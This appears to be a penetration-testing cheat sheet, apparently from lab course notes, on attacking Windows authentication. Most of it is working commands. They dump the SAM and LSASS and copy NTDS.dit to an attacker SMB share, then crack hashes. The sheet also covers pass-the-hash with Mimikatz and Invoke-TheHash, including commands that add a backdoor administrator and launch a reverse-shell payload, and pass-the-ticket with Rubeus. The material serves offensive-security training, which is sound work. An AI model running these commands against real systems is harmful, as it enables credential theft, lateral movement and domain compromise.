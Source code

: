 ### Windows Authentication Process Overview

![Alt text](../Password/Assets/image.png)

### Local Security Authority Subsystem Service - LSASS

| **Authentication Packages**   | **Description**   |
| --------------|-------------------|
|   Lsasrv.dll    |	The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful. | 
|   Msv1_0.dll  |	Authentication package for local machine logons that don't require custom authentication.   |
|   Samsrv.dll	|   The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs.    |
|    Kerberos.dll   |	Security package loaded by the LSA for Kerberos-based authentication on a machine.  |
|   Netlogon.dll    |	Network-based logon service.    |
|    Ntdsa.dll  |  This library is used to create new records and folders in the Windows registry.  |


## Attacking SAM

| **Registry Hive**   | **Description**   |
| --------------|-------------------|
|   hklm\sam    |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. | 
|   hklm\system  |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.   |
|   hklm\security	|   Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.    |

### Dumping & Cracking SAM (Local)
```powershell
## Copy registry hive
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

## On our local machine
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1137601/Desktop/

## Move copied hive back for local cracking
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData

## Dump hive
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

## Hashcat crack hive
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Dumping SAM (Remotely)

```bash
## Dump LSA Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

## Dump SAM Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Attacking LSASS

### Dumping LSASS

```powershell
## Find LSASS process 
tasklist /svc       # CMD
Get-Process lsass   # Powershell

## Create lsass dump file
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

## Extract credentials 
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

## Attacking Active Directory (AD)

### Attack Flow (Require Privilege Escalation)
```powershell
## Check privileges
net localgroup
net user

## Create Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

## Copy NTDS.dit from VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

## Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

### Alternative Remote Attack Flow

```bash
## Use CrackMapExec to automate the above steps
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Credential Hunting

### Ussing Lazagne
```powershell
start lazagne.exe all
```

### Using findstr

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Pass the Hash

### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Powershell Invoke-TheHash 

```powershell
cd C:\tools\Invoke-TheHash\
Import-Module .\Invoke-TheHash.ps1

## Invoke-TheHash with SMB
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

## Invoke-TheHash with WMI
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e $reverse_shell_payload"
```

### Limitations

_UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well._

_If the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account._

## Pass the Ticket

- The TGT - Ticket Granting Ticket is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.

- The TGS - Ticket Granting Service is requested by users who want to use a service. These tickets allow services to verify the user's identity.


### Mimikatz

```powershell
privilege::debug

## Harvest all tickets 
sekurlsa::tickets /export

## Extract Kerberos keys
sekurlsa::ekeys

## Pass the Key/OverPass the Hash
## Converts hash/key for domain-joined user into a full TGT
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

## Pass the Ticket
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

```powershell
## Windows Pass the Ticket for Lateral Movement
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

## Connect to target machine
Enter-PSSession -ComputerName DC01
```

### Rubeus

```powershell
## Harvest all tickets
Rubeus.exe dump /nowrap

## Pass the Key/OverPass the Hash
## Rubeus does not require administrative rights compared to Mimikatz
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

## Pass the Ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

## Alternatively, use base64 output from Rubeus or convert .kirbi to base64 to PtT
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV...
```

```powershell
## Windows Pass the Ticket for Lateral Movement
## Creates sacrificial process/logon session (type 9)
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

Enter-PSSession -ComputerName DC01
```

## Useful Repositories

https://github.com/ihebski/DefaultCreds-cheat-sheet
\
https://github.com/urbanadventurer/username-anarchy
